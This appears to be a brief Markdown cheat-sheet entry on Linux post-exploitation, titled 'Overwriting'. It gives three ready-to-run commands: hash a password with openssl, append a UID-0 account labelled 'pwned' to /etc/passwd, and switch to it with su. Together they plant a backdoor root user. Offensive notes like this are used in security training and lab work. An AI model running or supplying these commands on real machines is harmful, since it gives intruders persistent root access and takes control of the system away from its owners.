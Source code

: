 ```yaml
---
tags:
  - Post-Exploitation
  - OperatingSystems
  - Linux
  - Concepts
  - Information
---
```



# Overwriting

#SecuringRoot 

Overwriting the `/etc/passwd` file can allow for a creation or modification of an existing user.

## Securing Root

```
openssl passwd -1 a
```

```
echo 'a:<HASH>:0:0:pwned:/root:/bin/bash' >> /etc/passwd
```

```
su - a
```